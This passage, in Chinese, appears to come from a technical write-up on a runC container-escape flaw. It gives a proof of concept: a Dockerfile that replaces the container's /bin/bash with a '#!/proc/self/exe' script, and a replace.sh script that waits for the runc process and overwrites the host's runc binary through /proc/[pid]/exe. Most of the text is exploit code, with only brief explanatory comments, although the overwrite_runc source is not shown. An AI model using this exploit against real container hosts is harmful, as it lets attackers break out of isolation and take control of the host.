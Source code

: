 下面介绍的是构造恶意容器进程触发漏洞的Poc。这种方式触发条件比另一种方式要更为苛刻，实际测试时由于无法控制程序时序，尝试了几次都失败了。
```
$ tree
.
├── Dockerfile
├── bash_evil
├── new_runc
├── new_runc.c
├── overwrite_runc
├── overwrite_runc.c
└── replace.sh

```

```
$ cat Dockerfile
FROM ubuntu:18.04

COPY replace.sh /
RUN ["chmod", "+x", "/replace.sh"]
COPY overwrite_runc /overwrite_runc
RUN ["chmod", "+x", "/overwrite_runc"]
COPY new_runc /

RUN ["mv", "/bin/bash", "/bin/bash_original"]
COPY bash_evil /bin/bash
RUN ["chmod", "+x", "/bin/bash"]

ENTRYPOINT ["/bin/bash_original", "/replace.sh"]

# 将replace.sh, overwrite_runc, new_runc复制到容器iamge
# 将容器image的/bin/bash 替换成bash_evil
# 将replace.sh作为entrypoint在docker run时执行

```

```
$ cat bash_evil
#!/proc/self/exe
```

```
$ cat replace.sh
#!/bin/bash_original
echo "[+] Waiting for runC to be executed in the container..."

runc_pid=$(ps axf | grep /proc/self/exe | grep -v grep | awk '{print $1}')

# Wait for /proc/self/exe to be executed
while [ -z "$runc_pid" ]
do
    runc_pid=$(ps axf | grep /proc/self/exe | grep -v grep | awk '{print $1}')
done

# Call overwrite_runc with the symlink to the runC binary
./overwrite_runc /proc/${runc_pid}/exe

# 1. 持续检测进程，等待runc进程出现(表示修改后的/bin/sh被runc exec执行)
# 2. 执行overwrite_runc修改/proc/[runc-pid]/exe文件为new_runc

```

